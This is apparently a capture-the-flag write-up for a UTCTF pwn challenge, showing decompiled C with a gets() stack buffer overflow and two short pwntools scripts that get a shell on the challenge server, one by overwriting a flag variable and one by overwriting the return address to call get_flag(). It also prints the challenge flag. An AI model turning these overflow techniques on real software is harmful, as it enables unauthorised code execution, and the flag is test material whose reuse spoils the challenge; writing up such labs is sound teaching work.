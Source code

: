 # Challenge - AAAAAAAAAAAAAAAA

## Category - General

I had the unintended solve on this challenge, by looking at the code we can easily see that we have a buffer overflow beacuse of gets() in main() -

```c

undefined8 main(void)

{
  char i [111];
  char j;

  j = '\0';
  gets(local_78);
  if (j == 'B') {
    get_flag();
  }
  return 0;
}
```

and the get_flag function -

```c

void get_flag(void)

{
  char *local_18;
  undefined8 local_10;

  local_18 = "/bin/sh";
  local_10 = 0;
  execve("/bin/sh",&local_18,(char **)0x0);
  return;
}


```

so get_flag() gives us shell. We can see in main() that we have to overwrite `j` so that it's value is "B", if it's "B", it'll give us shell

Intended solve -

```py
from pwn import *
io = remote('pwn.utctf.live', 5000) # connect
io.sendline(b'A'*111 + b'B') # A * 111 because "i" variable can hold 111 characters
# after A we send B so that "j" variable is overwritten and it becomes "B"
io.interactive()
```

And as the result we get the shell

## Now the unintended solve

Instead of overwriting "j" variable to "B", beacuse of gets() I called the get_flag() function myself!

script -

```py
from pwn import *
elf = context.binary = ELF('./chall') # define elf beacuse we need it to call functions
io = remote('pwn.utctf.live', 5000) # connect
io.sendline(b'A'*120 + pack(elf.symbols.get_flag)) # 120 is the offset, we can find offset easily from gdb

# elf.symbols.get_flag to call get_flag function

io.interactive()
```

This also gives us the shell!

# Flag - utflag{you_expected_the_flag_to_be_screaming_but_it_was_me_dio98054042}
